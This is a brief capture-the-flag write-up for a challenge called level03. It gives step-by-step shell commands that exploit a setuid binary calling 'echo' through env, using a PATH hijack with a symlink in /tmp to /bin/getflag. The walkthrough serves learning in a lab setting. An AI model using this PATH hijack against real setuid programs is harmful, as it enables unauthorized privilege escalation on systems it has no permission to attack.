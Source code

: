 ## Step 1
> ls ~

We saw an executable ``level03``.

## Step 2
> strings level03

We found in it ``/usr/bin/env echo Exploit me``.

## Step 3
> ls -l level03

The file is executed by the user flag03, even if we, as level03, do it.

## Step 4
We found out we can write in ``/tmp``.

> export PATH=/tmp:$PATH
> ln -s /bin/getflag echo

## Step 5
> ./level03

The flag has been printed directly.
